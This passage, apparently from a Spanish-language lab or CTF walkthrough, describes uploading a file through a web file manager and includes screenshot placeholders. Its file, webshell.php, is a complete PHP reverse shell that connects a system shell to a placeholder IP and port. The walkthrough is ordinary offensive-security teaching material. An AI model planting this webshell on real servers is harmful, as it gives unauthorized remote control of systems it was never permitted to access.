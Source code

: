 Vamos a darle a `Add files`:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 144227.png" alt=""><figcaption></figcaption></figure>

Echo esto seleccionaremos nuestro `webshell.php`:

> webshell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Veremos esto:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-22 143414.png" alt=""><figcaption></figcaption></figure>

Dentro de esta opcion ya seleccionada de archivo, le daremos a `Upload` que esta a la derecha, con esto veremos que habremos subido bien dicho archivo y ahora en la carpeta veremos esto:
